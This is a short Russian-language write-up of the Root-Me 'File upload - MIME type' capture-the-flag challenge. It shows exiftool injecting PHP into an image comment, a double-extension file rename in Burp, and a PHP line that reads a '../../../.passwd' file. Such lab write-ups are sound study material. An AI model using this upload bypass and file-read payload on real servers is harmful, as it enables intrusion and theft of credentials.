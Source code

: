 <--https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type-->

1. Первое, что я понял, это то, что бекенд пускает картинку, с соотвествующим MIME-type. Для этого я скачал рандомную 
   картинку из интернета и с помощью exiftool проверил её метаданные:
![изображение](https://github.com/MysterYXY01/B-gD-ck/assets/132662542/cf3674bf-1833-4d7d-8d99-e714a3c6bbe8)  

2. Далее я добавил в комментарий исполняемый php код с помощью: exiftool -comment="<?php phpinfo(); ?>" answer.php.png
3. Далее я попытался отправить изображение, однако php код не выполнялся.
4. В burp'e я поменял имя файла на answer.php.png.php (добавил еще php), написал в конец еще один исполняемый код:
    <?php $section=file_get_contents('../../../.passwd'); var_dump($section); ?>
5. Отправил запрос и получил нужные ответ

